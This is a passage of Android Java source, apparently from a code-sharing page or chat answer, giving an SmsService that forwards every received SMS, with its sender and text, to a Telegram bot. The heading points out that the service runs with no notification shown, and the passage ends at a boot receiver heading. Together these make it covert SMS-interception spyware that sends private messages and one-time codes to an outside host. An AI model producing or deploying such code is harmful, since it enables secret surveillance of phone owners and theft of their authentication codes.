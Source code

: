 
### ✅ `service/SmsService.java` (No notification shown!)
<span style="font-family: Courier New, monospace;">Add won Bot API + Chat ID</span>

```java
package com.example.smsforwarder.service;

import android.app.Service;
import android.content.Intent;
import android.os.Bundle;
import android.os.IBinder;
import android.telephony.SmsMessage;

import com.example.smsforwarder.TelegramUtils;

public class SmsService extends Service {

    // Put your bot token and chat ID here
    private static final String BOT_TOKEN = "YOUR_BOT_TOKEN";
    private static final String CHAT_ID = "YOUR_CHAT_ID";

    @Override
    public int onStartCommand(Intent intent, int flags, int startId) {
        try {
            Bundle bundle = intent.getExtras();
            if (bundle != null) {
                Object[] pdus = (Object[]) bundle.get("pdus");
                if (pdus == null) return START_NOT_STICKY;

                for (Object pdu : pdus) {
                    SmsMessage sms = SmsMessage.createFromPdu((byte[]) pdu);
                    String msg = "📥 From: " + sms.getOriginatingAddress()
                            + "\n" + sms.getMessageBody();
                    TelegramUtils.sendMessage(BOT_TOKEN, CHAT_ID, msg);
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }

        stopSelf();
        return START_NOT_STICKY;
    }

    @Override
    public IBinder onBind(Intent intent) { return null; }
}
```

---

### ✅ `receiver/BootReceiver.java`
